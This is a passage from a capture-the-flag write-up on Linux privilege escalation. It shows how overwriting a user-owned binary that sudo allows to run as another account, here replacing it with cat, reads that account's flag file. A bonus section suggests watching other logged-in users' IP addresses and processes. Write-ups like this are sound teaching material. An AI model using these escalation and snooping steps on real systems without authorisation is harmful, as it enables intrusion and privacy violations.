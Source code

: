 Nothing interesting in `globalSystem`'s home folder. 

We are still only interested in `navigationSystem`, so let's see which commands `globalSystem` is allowed to run through `sudo`:


```bash
globalSystem@b43e27468d7b:/home/user$ sudo -l
Matching Defaults entries for globalSystem on b43e27468d7b:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, env_keep+=LD_PRELOAD

User globalSystem may run the following commands on b43e27468d7b:
    (navigationSystem) NOPASSWD: /usr/bin/update
```

We can run `/usr/bin/update` as `navigationSystem` without password.

`/usr/bin/update` is a small custom-made executable that asks for a password, then loops forever while pretending to update firmware. 

The password, `AloneIsTheBest`, is slightly obfuscated but still visible in a hex editor. However, it doesn't seem to be the password of `globalSystem`, or `navigationSystem`, or `root`, so that's a bummer.

However, on closer look, it turns out that `/usr/bin/update` is owned...

```bash
globalSystem@b43e27468d7b:/home/user$ ls -al /usr/bin/update
-rwxr-xr-x 1 globalSystem globalSystem 43744 Nov 15 16:28 /usr/bin/update
```

by globalSystem! Which means we can edit the file and replace its contents with whatever we want, for example by cat, and sudo will allow us to run that as navigationSystem:


```bash
globalSystem@b43e27468d7b:/home/user$ cp /bin/cat /usr/bin/update
globalSystem@b43e27468d7b:/home/user$ sudo -u navigationSystem /usr/bin/update ~navigationSystem/flag.txt
DGSESIEE{44adfb64ff382f6433eeb03ed829afe0}
```

---

### Bonus

There are some other interesting things you can do on that server: 

 * For example, you can use other commands like `w` to see other logged-in users (and their ip addresses, if you're in a portscanning mood).
 * You can also examine `ps faux` to see what processes everyone commands they were running, which can be very instructive:

```bash
globalSystem@b43e27468d7b:~$ ps faux
USER       PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root         1  0.0  0.0   2384   756 ?        Ss   Nov12   0:00 /bin/sh -c service ssh start && tail -F /dev/null
root        16  0.0  0.1  15848  4356 ?        Ss   Nov12   0:00 /usr/sbin/sshd
root       505  0.0  0.1  16188  7720 ?        Ss   16:02   0:00  \_ sshd: user [priv]
user      1341  0.0  0.1  16188  4944 ?        S    16:02   0:00  |   \_ sshd: user@pts/0
user      1374  0.0  0.0   5748  3460 pts/0    Ss   16:02   0:00  |       \_ -rbash
user      3982  0.0  0.1  15032  7204 pts/0    S    16:02   0:00  |           \_ python
user     11776  0.0  0.0   2384   764 pts/0    S    16:03   0:00  |               \_ sh -c /bin/bash
user     11777  0.0  0.0   5748  3736 pts/0    S    16:03   0:00  |                   \_ /bin/bash
root     16559  0.0  0.0   8344  3532 pts/0    S    16:06   0:00  |                       \_ sudo -u globalSystem vim
globalS+ 16567  0.2  0.1  15936  7936 pts/0    S    16:06   0:07  |                           \_ vim
```